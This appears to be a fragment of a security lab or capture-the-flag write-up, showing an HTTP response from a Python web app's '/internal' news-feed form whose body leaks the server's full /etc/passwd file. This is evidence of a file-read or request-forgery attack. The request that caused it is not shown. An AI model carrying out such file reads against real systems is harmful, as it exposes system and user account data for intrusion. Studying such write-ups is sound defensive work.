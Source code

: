 <h6>Response</h6>

```bash
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.8.10
Date: Wed, 01 Oct 2025 15:56:27 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 3742
Vary: Cookie
Connection: close


<!DOCTYPE html>
...
<form action="/internal" method="POST">
    <h4>Update news feed</h4>
    <button type="submit" name="news" id="news" value="latest">Update</button>
  
</form>
    
    
      root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
anders:x:1000:1000:anders:/home/anders:/bin/bash
devops:x:1001:1001:,,,:/home/devops:/bin/bash
telnetd:x:113:118::/nonexistent:/usr/sbin/nologin
ftp:x:114:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
fwupd-refresh:x:115:120:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash

    
    </div>

```